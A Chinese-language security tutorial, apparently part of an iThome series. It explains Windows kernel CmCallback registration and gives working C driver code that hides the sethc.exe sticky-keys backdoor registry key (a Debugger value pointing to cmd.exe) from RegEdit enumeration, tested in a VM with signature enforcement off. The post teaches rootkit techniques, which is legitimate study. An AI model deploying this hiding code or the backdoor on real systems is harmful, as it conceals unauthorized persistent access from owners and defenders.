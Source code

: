 # 【第 26 話】Kernel Callback 隱藏 Registry

## 文章大綱
這篇要講解 Windows 中的 Kernel Callback 機制，以及利用這個機制從 Kernel 隱藏 Registry，躲過 RegEdit 工具的列舉，並模仿惡意程式隱藏自己的後門。


## Kernel Callback
Windows Kernel Callback 是一個讓驅動程式註冊 Callback 函數，然後在特定事件發生時執行操作的機制。這些 Callback 函數可以用來監視、修改原本系統的行為。

在[【第 21 話】驅動程式數位簽章](/asset/第%2021%20話)中有提到在 x64 Windows XP 之後 PatchGuard 會偵測 Kernel 的各種結構是否被竄改，包括 Hook SSDT 這個技術，因為會改到 SSDT 這個表本身，所以不論是防禦者或攻擊者都不能使用。

![](HookSSDT.png)

取而代之的是微軟開發的 Kernel Callback 機制，它讓使用者可以在不 Hook 的狀況下監控各種 Kernel API。然而，攻擊者如果有 Kernel 執行權也可以利用這個機制實作惡意行為。


## CmCallback
Kernel Callback 的種類很多，這篇會針對其中的 CmCallback 達到隱藏 Registry 的效果。

使用 [CmRegisterCallbackEx](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-cmregistercallbackex) 註冊 CmCallback，我們可以在各種 Registry 操作相關的 Kernel API 的前後做預處理（Preoperation）和後處理（Postoperation）。從 wdm.h 中可以找到 [REG_NOTIFY_CLASS](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/ne-wdm-_reg_notify_class)，這些都是我們在 Callback 中操作的 Registry 事件。

```
typedef enum _REG_NOTIFY_CLASS {
  RegNtDeleteKey,
  RegNtPreDeleteKey,
  ...
  RegNtPostSaveMergedKey,
  MaxRegNtNotifyClass
} REG_NOTIFY_CLASS;
```


## 隱藏 Registry
在[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)中有提到 GhostEmperor 濫用有漏洞的驅動程式隱藏惡意程式相關的 Registry，這篇會透過註冊 CmCallback 達到相同效果。

其中一種用 Registry 達到的簡單後門是在 `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe` 中新增一個 `Debugger`，內容填想要執行的任意程式，例如 `C:\Windows\System32\cmd.exe`。

![](backdoor.png)

在螢幕鎖定時點選高對比的開關時就會跳出一個 cmd。這篇的目標就是要從 Kernel 使用 CmCallback 隱藏這個後門 Registry。

![](sethc.png)



CmCallback 能處理的事件很多，這篇只處理 `RegNtPostEnumerateKey` 來隱藏 Registry，因為程式一般會使用 [ZwEnumerateKey](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-zwenumeratekey) 列舉 Registry。


## 寫程式
程式主要參考 [JKornev/hidden](https://github.com/JKornev/hidden)，我簡化它實作的流程並加了一些註解，完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/HideRegistry)。

程式步驟如下。
1. 在 CmCallback 處理 RegNtPostEnumerateKey
2. 取得當前處理的 Registry 的相關資訊
3. 比對當前處理的 Registry 是不是要隱藏的目標
4. 如果是要隱藏的目標就取代為它的下一個 Registry

```c
NTSTATUS CmCallbackCmRegistryCallback(PVOID CallbackContext, PVOID Argument1, PVOID Argument2)
{
    UNREFERENCED_PARAMETER(CallbackContext);

    // 1. 在 CmCallback 處理 RegNtPostEnumerateKey
    // 根據 CmCallback 的類別做不同處理，這個 PoC 要處理的只有 RegNtPostEnumerateKey
    switch ((REG_NOTIFY_CLASS)PtrToUlong(Argument1))
    {
        case RegNtPostEnumerateKey:
        {
            PREG_POST_OPERATION_INFORMATION info = (PREG_POST_OPERATION_INFORMATION)Argument2;
            PCUNICODE_STRING regPath;
            UNICODE_STRING keyName;
            PREG_ENUMERATE_KEY_INFORMATION preInfo;
            if (!NT_SUCCESS(info->Status))
                return STATUS_SUCCESS;

            // 2. 取得當前處理的 Registry 的相關資訊
            // 取得當前處理的 Key 的 Registry Path
            if (!NT_SUCCESS(CmCallbackGetKeyObjectID(&CmCallbackCmCallbackContext.CallbackRegistrationCookie, info->Object,
                                                     NULL, &regPath)))
                return STATUS_SUCCESS;

            // 根據 KeyInformationClass 取得 keyName
            preInfo = (PREG_ENUMERATE_KEY_INFORMATION)info->PreInformation;
            if (!GetNameFromEnumKeyPreInfo(preInfo->KeyInformationClass, preInfo->KeyInformation, &keyName))
                return STATUS_SUCCESS;

            PVOID tempBuffer = (LPWSTR)ExAllocatePoolWithTag(PagedPool, preInfo->Length, 'hide');
            if (tempBuffer)
            {
                // 3. 比對當前處理的 Registry 是不是要隱藏的目標
                // 比對 Registry Path 是不是跟要隱藏的 Registry 相同
                if (!wcscmp(regPath->Buffer,
                            L"\\REGISTRY\\MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution "
                            L"Options"))
                {
                    // 比對 Key Name 的比對結果是不是大於等於 sethc.exe，
                    // 因為如果要隱藏 sethc.exe，之後的每一個 Registry 都要被它的下一個 Registry 取代
                    if (wcscmp(keyName.Buffer, L"sethc.exe") >= 0)
                    {
                        // 4. 如果是要隱藏的目標就用它的下一個 Registry 取代
                        // 取得當前的 Key 所在的 Registry Path 的 Object
                        HANDLE Key;
                        NTSTATUS status = ObOpenObjectByPointer(info->Object, OBJ_KERNEL_HANDLE, NULL, KEY_ALL_ACCESS,
                                                                *CmKeyObjectType, KernelMode, &Key);
                        if (!NT_SUCCESS(status))
                            return STATUS_SUCCESS;

                        // 取得下一個 Registry 的相關資訊
                        ULONG resLen;
                        status = ZwEnumerateKey(Key, preInfo->Index + 1, preInfo->KeyInformationClass, tempBuffer,
                                                preInfo->Length, &resLen);
                        if (!NT_SUCCESS(status))
                            return STATUS_SUCCESS;

                        if (!GetNameFromEnumKeyPreInfo(preInfo->KeyInformationClass, tempBuffer, &keyName))
                            return STATUS_SUCCESS;

                        // 把下一個 Registry 的 KeyInformation 取代當前 Registry 的 KeyInformation
                        RtlCopyMemory(preInfo->KeyInformation, tempBuffer, resLen);
                    }
                }
            }
        }
        default:
            break;
    }
    return STATUS_SUCCESS;
}
```


## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 用 RegEdit 寫入 Registry `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe`
2. 載入 [HideRegistry.sys](https://github.com/zeze-zeze/2023iThome/blob/master/HideRegistry/bin/HideRegistry.sys)
3. 在 RegEdit 按 F5 重新整理會發現 `sethc.exe` 的 Key 消失了

這篇實作的 PoC 只有處理 `RegNtPostEnumerateKey`，實際上同時也可以處理 `RegNtPreOpenKey`、`RegNtDeleteKey` 等等，讓要隱藏的 Registry 更隱密。

## 參考資料
- [JKornev/hidden](https://github.com/JKornev/hidden)
- [OSRDrivers/kmexts](https://github.com/OSRDrivers/kmexts)
- [Kernel Karnage – Part 5 (I/O & Callbacks)](https://blog.nviso.eu/2021/11/30/kernel-karnage-part-5-i-o-callbacks/)
- [【Day 13】粗暴後門，Duck 不必 - Windows 簡單後門](https://ithelp.ithome.com.tw/articles/10273669)
